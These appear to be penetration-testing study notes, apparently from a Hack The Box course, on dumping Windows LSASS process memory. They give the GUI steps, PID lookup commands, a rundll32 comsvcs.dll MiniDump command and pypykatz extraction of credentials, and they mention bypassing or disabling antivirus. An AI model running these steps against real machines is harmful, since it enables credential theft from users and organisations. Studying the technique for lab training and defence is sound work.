 # Attacking LSASS

#### LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems

![](https://academy.hackthebox.com/storage/modules/147/lsassexe_diagram.png)

### Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

## Dumping LSASS Process Memory (GUI)
##### Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
`C:\Users\loggedonusersdirectory\AppData\Local\Temp`

## With CLI
### Finding LSASS PID in cmd
```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

or

```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

## Creating lsass.dmp using PowerShell
#### We need elevated privs
`PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`
- Recall that most modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing

## dump it locally
`pypykatz lsa minidump lsass.dmp`